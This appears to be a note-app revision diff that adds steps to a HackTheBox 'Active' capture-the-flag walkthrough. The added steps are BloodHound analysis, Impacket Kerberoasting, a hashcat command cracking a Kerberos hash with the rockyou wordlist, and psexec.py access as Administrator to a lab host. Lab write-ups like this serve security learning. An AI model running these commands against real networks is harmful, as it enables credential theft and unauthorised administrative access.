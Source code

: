 id: 0851648841774cac87649c0191efd893
parent_id: 6087bc9421074b828eaf43f99396fd78
item_type: 1
item_id: c945d5b6762b46c488bac2b2cfaead54
item_updated_time: 1642414405471
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" there\\\n\\\n\"],[1,\"## Use BloodHound on Linux for analysis\\\n\\\n\"],[0,\"> neo4j \"]],\"start1\":4891,\"start2\":4891,\"length1\":16,\"length2\":57},{\"diffs\":[[0,\"NUsers\\\n\\\n\"],[1,\"## Use Impacket to get the password Hash\\\n\\\n\"],[0,\"> GetUse\"]],\"start1\":5245,\"start2\":5245,\"length1\":16,\"length2\":58},{\"diffs\":[[0,\"trator\\\n\\\n\"],[1,\"## Use HashCat to crack the Hash\\\n\\\n\"],[0,\"Go to ha\"]],\"start1\":5489,\"start2\":5489,\"length1\":16,\"length2\":50},{\"diffs\":[[0,\"c7828)\\\n\\\n\"],[-1,\"as\"],[1,\"> hashcat -m 13100 hashes/active.htb /opt/wordlist/rockyou.txt\\\n\\\n![d6e54f10d57386c30db3b8c318f282b3.png](:/dc6e1a9341f1404aa858efee6222ea31)\\\n\\\nThe password is obtained ==> test the password with psexec\\\n\\\n> psexec.py active.htb/Administrator@10.10.10.100\\\n\\\n![dd1665ccde16b936a6890e46ebd1a693.png](:/61ad08857f804a38acca37ad29035712)\\\n\\\nRoot is obtaine\"],[0,\"d\"]],\"start1\":5667,\"start2\":5667,\"length1\":11,\"length2\":353}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-17T10:15:37.605Z
created_time: 2022-01-17T10:15:37.605Z
type_: 13